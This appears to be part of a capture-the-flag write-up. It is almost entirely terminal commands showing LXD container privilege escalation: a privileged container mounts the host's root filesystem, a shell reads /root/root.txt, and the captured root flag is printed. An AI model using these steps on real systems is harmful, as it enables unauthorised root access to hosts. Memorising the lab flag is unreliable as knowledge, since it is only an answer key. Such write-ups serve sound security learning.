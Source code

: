 ```bash
$ lxd init
Would you like to use LXD clustering? (yes/no) [default=no]:
Do you want to configure a new storage pool? (yes/no) [default=yes]:
Name of the new storage pool [default=default]: ignite
Name of the storage backend to use (dir, lvm, zfs, ceph, btrfs) [default=zfs]:
Create a new ZFS pool? (yes/no) [default=yes]:
Would you like to use an existing empty block device (e.g. a disk or partition)? (yes/no) [default=no]:
Size in GB of the new loop device (1GB minimum) [default=5GB]:
Would you like to connect to a MAAS server? (yes/no) [default=no]:
Would you like to create a new local network bridge? (yes/no) [default=yes]:
What should the new bridge be called? [default=lxdbr0]:
What IPv4 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: none
What IPv6 address should be used? (CIDR subnet notation, “auto” or “none”) [default=auto]: none
Would you like the LXD server to be available over the network? (yes/no) [default=no]: no
Would you like stale cached images to be updated automatically? (yes/no) [default=yes] no
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]:

$ lxc init myimage ignite -c security.privileged=true
Creating ignite

$ lxc config device add ignite host-root disk source=/ path=/mnt/root recursive=true
$ lxc start ignite
$ lxc exec ignite /bin/sh
~# cd /mnt/root/root
/mnt/root/root # ls
root.txt  snap
```
Root Flag is:
```
c2c3a98668aa4a106e8db9eff38adde9
```